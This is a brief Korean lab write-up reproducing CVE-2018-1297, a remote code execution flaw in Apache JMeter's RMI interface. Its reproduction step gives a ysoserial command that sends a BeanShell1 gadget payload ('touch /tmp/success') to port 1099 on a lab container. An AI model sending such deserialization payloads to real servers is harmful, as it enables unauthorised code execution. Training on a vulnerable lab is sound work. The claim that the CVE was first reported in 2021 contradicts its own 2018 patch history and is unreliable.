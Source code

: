 ## CVE-2018-1297



#### Apache Jmeter RMI De-Serialization Command Execution Vulnerability

| **First Reporter** |          **Philippe Mouawad**          |
| :----------------- | :------------------------------------: |
| **Author**         | **SeongHyeon Oh(os5844557@gmail.com)** |
| **Date Created**   |             **2023.10.30**             |
| **Version**        |               **1.0.0**                |



### INDEX

-----

**1. introduce**

**2. Code Audit**

**3. Reproduce**

**4. Reference**



#### 1. Introduce

----

  Apache JMeter은 미국 아파치 소프트웨어 재단(American Apache Software Foundation)이 스트레스 테스트 및 성능 테스트를 위해 Java 언어로 작성한 오픈 소스 소프트웨어 세트입니다.

  CVE-2018-1297은 JMeterEngine 에서 발견되었으며 2021년 01월 23일 Philippe Mouawad에 의해 최초로 보고되었다. 

  이는 분산 테스트만(RMI 기반) 사용하는 경우 jmeter가 보안되지 않은 RMI를 사용하므로 공격자가 JMeterEngine에 액세스하고 승인되지 않은 코드를 보낼 수 있는 취약점이다.

  해당 vulnerability는 JMeter 2.X, 3.X에서 트리거되며, JMeter 4.0에서 patch가 이루어졌다. CVSS v3 score은 9.8이다.

   

#### 2. Reproduce

------

대상 환경: Kali Linux

- `docker-compose up -d`를 실행하여 테스트 환경을 실행함.
- `java -cp ysoserial-0.0.6-SNAPSHOT-all.jar ysoserial.exploit.RMIRegistryExploit your-ip 1099 BeanShell1 'touch /tmp/success'`를 실행하여 지정된 페이로드가 포함된 패킷을 대상으로 보낸다.

 

#### 3. Conclusion

----

![image](https://github.com/whiteshadowhack/whitehat-school-vulhub/assets/122043815/07dc73a8-22f7-4e17-97a8-37f9c3717150)

![image](https://github.com/whiteshadowhack/whitehat-school-vulhub/assets/122043815/41e91eb1-2687-4711-97b7-a181d52da39e)

![image](https://github.com/whiteshadowhack/whitehat-school-vulhub/assets/122043815/50fcd5e9-ec9c-4c1e-838c-531d28b2b89b)

![image](https://github.com/whiteshadowhack/whitehat-school-vulhub/assets/122043815/84ab9105-8e46-40c4-b444-09c8c1253ec0)

![image](https://github.com/whiteshadowhack/whitehat-school-vulhub/assets/122043815/69c6d149-28f2-4c6c-8764-02ebafa81e1a)



#### 4. Reference

----

https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-1297

https://nvd.nist.gov/vuln/detail/CVE-2018-1297

https://ubuntu.com/security/CVE-2018-1297

https://www.cvedetails.com/cve/CVE-2018-1297/

https://lists.apache.org/thread/nmnl88g0t1zm5rs6nfbfc7s30j141645https://elixir.bootlin.com/linux/v5.14.15/source/net/tipc/crypto.c

https://bz.apache.org/bugzilla/show_bug.cgi?id=62039

